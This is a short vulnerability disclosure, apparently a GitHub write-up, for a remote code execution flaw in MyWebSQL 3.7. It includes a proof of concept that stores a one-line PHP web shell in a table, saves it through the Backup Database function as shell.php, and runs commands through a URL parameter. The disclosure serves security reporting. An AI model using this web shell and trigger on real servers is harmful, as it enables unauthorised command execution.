 ## MyWebSQL ver 3.7 remote code execution (RCE) vulnerability Description
- Author: YU-HSIANG HUANG, YUNG-HAO TSENG, Eddie TC CHANG
- Contact: huang.yuhsiang.phone@gmail.com; 0xuhaw@gmail.com; eddietcchang@gmail.com
---
### Testing Target
- Product: MyWebSQL
- Version: 3.7
- Official Website: http://mywebsql.net/
- Github: https://github.com/Samnan/MyWebSQL

### Summary
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability.

### Description
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability after write a shell code in database and execute `Backup Database` function.
 
### Concept
1. Create a test table (code) and write a shell code in this table.  
 **Shell code example**: `<?php system($_GET[cmd]); ?>`
![](./png/1.png)
2. Execute `Backup Database` function and modify Backup filename as `shell.php`.
![](./png/2.png)
3. Browse `(domain)/mywebsql/backups/shell.php?cmd=XXX`. Here instance is  `cmd=ipconfig` as below figure.
![](./png/3.png)
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTA3Nzk2ODEyNSwtMTkwMDkwODAwOCwtMT
kxNzI5Mzg4NywxMTAyNDQ3MDE4XX0=
-->